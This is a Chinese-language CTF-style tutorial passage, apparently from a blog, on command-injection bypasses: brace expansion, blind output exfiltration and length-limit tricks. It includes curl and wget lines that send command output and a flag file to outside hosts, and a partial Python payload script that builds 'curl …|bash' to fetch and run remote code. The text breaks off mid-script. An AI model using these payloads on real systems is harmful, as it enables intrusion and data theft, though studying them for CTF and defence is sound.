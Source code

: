 ![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052809053980.png#pic_center)

## 花括号的用法

在Linux bash中还可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令`{cat,flag}`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021052809285025.png#pic_center)

## 无回显的命令执行

可以通过curl命令将命令的结果输出到访问的url中：

```php
curl www.rayi.vip/`whoami`
```

在服务器日志中可看到：`xx.xx.xx.xx - - [12/Aug/2019:10:32:10 +0800] "GET /root HTTP/1.1" 404 146 "-" "curl/7.58.0"`，这样，命令的回显就能在日志中看到了

## 读文件命令

```php
ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sort|cut|xxd
```

无回显的情况下wget带出：`wget  --post-file flag 47.100.120.123:2333`

## 长度绕过

详细见[P牛文章](https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html)
linux命令执行的时候可以使用反斜杠换行；bash脚本中同样适用上面的规则；可以用文件名加反斜杠构成命令，使用ls -t o 将文件名输出到文件，使用bash o执行脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528091115666.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
构造ls -t

```php
命令：>ls\\			#生成一个文件名为ls\的文件
命令：ls>_			#为了确保ls -t 中ls在前面，所以要先使用ls>_将ls输入到文件_中
命令：>\ \\			#生成ls -t之间的空格，一个文件名为 \的文件
命令：>-t\\			#生成文件名为-t\的文件
命令：>\>g			#生成文件名为>g的文件
命令：ls>>_			#将所有的文件名写到文件_里
命令：sh _			#由上至下按顺序执行由\拼接起来的ls -t命令，并将结果输入到文件g中
```

```python
import requests
from time import sleep
import urllib

payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 
    
    # generate `curl www.rayi.vip|bash` 
    # 注意文件名不能以.开头
    # 注意文件名不能有重复
    # 注意vps只能用index，因为文件名不能以/开头
    # 悲剧的是我的vps的ip正好有俩0.，只能用域名了
```